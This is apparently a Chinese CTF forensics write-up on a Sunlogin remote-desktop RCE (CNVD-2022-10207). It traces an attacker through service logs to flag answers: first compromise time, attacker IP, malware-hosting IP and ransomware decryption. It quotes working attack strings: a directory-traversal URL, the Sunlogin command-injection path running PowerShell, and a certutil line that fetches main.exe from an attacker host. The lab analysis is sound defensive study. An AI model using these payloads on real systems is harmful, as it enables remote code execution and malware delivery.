CNVD-2022-10207

向日葵RCE

目录遍历攻击

```
/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en
```

命令注入攻击

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+whoami
```


```
通过本地 PC RDP到服务器并且找到黑客首次攻击成功的时间为 为多少,将黑客首次攻击成功的时间为 作为 FLAG 提交(2028-03-26 08:11:25.123);

通过本地 PC RDP到服务器并且找到黑客攻击的 IP 为多少,将黑客攻击 IP 作为 FLAG 提交;

通过本地 PC RDP到服务器并且找到黑客托管恶意程序 IP 为,将黑客托管恶意程序 IP 作为 FLAG 提交;

找到黑客解密 DEC 文件,将黑客DEC 文件的 md5 作为 FLAG 提交;

通过本地 PC RDP到服务器并且解密黑客勒索软件,将桌面加密文件中关键信息作为 FLAG 提交;
```


## 首次攻击成功时间和黑客IP

首先定位到日志位置

右键桌面的向日葵图标—>打开文件所在位置



进入log文件夹



其中sunlogin_service.20240321-191046文件大小明显大于别的日志文件

拷贝到本地

简单查看一下



存在[HTTP]关键词，其中记录了攻击者通过web服务器的恶意行为

grep提取

```
cat sunlogin_service.20240321-191046.log | grep HTTP > ra1n3.txt
```






前面都像是在进行目录爆破

直到最后面



因此第一条执行命令的时间即攻击者攻击成功的时间

```
2024-03-26 10:16:25.585 - Info  -       [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:64247, path: /check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+whoami, version: HTTP/1.1
```

同时也存在黑客IP

```
192.168.31.45
```


## 黑客托管恶意程序 IP

继续分析黑客行为



```
2024-03-26 10:31:07.576 - Info  -       [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49329, path: /check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmain.exe, version: HTTP/1.1
```

其中这一条利用certutil获取远程服务器上的main.exe

即

则托管恶意程序为

```
192.168.31.249
```


## 黑客解密 DEC 文件的MD5



这里，黑客将qq写入qq.txt

通过搜索该qq，在玄机群里找到pem文件






RSA私钥文件


```
md5sum DEC.pem
```




## 解密黑客勒索软件



根据前面得到的RSA私钥文件，利用RSA私钥解密

[在线RSA加密解密,RSA2加密解密(SHA256WithRSA)-BeJSON.com](https://www.bejson.com/enc/rsa/)



但是得到这一串内容不知道怎么处理


将黑客上传的main.exe文件保存到本地，ida分析



其中暴露了github项目地址

利用给出的解密方式进行解密即可

